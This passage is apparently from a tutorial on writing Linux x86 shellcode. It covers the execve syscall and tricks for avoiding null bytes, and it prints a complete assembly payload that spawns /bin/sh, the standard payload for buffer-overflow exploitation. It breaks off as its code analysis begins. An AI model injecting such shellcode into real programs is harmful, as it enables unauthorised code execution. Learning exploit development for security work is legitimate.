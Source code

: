 ### Write the Shellcode in Assembly

#### Example: Linux x86 Shellcode to Execute `/bin/sh`

Here’s how to manually write shellcode in Assembly:

1\. **Use System Calls**: Shellcode interacts with the kernel directly using system calls. For Linux:

- The `execve` system call is used to execute `/bin/sh`**.**
- System call numbers are architecture-specific. For x86 Linux:
- `execve` **=** `0x0b`**.**
- Registers are used to pass arguments: `eax`**,** `ebx`**,** `ecx`**,** etc.

2\. **Minimize Null Bytes**: Null bytes (`\x00`) terminate strings and can break shellcode when injected into a buffer. Avoid them where possible.

### Removing NULLs

We need to extract these bytes and use them in our C code! Simple? BUT WAIT!

Another fundamental we know is that null bytes can sometimes terminate an action. So we must remove these null bytes from our shellcode to prevent any mishappening. To exactly know which instructions won’t generate null bytes comes with practice. But certain tricks can be used in simple programs to achieve this.

For example, using “**xor rax,rax**” would assign **rax=0** since **xoring** anything with itself gives **0**.

So, we can do “**xor rax,rax**” and then “**add rax,1**” to make **RAX** as **1.**

In our code, you’ll observe every **mov** instruction creates **0s**. So, if we have to assign a value of “**1**”, we can **xor** to make it **0** and then “**add**” 1. “Add” instruction simply adds the value given to the register mentioned.

```
section .text
global _start

_start:
xor eax, eax        ; Clear eax (set it to 0)
push eax            ; Null-terminate the string "/bin/sh"
push 0x68732f6e     ; Push "/bin/sh" string in reverse order
push 0x69622f2f     ; Push "//bin"
mov ebx, esp        ; Set ebx to point to "/bin/sh"
xor ecx, ecx        ; Null out ecx (no arguments to the shell)
xor edx, edx        ; Null out edx (no environment variables)
mov al, 0x0b        ; Syscall number for execve
int 0x80            ; Trigger syscall
```

### Code Analysis

```
_start:
xor eax, eax        ; Clear eax (set it to 0)Explanation:
```
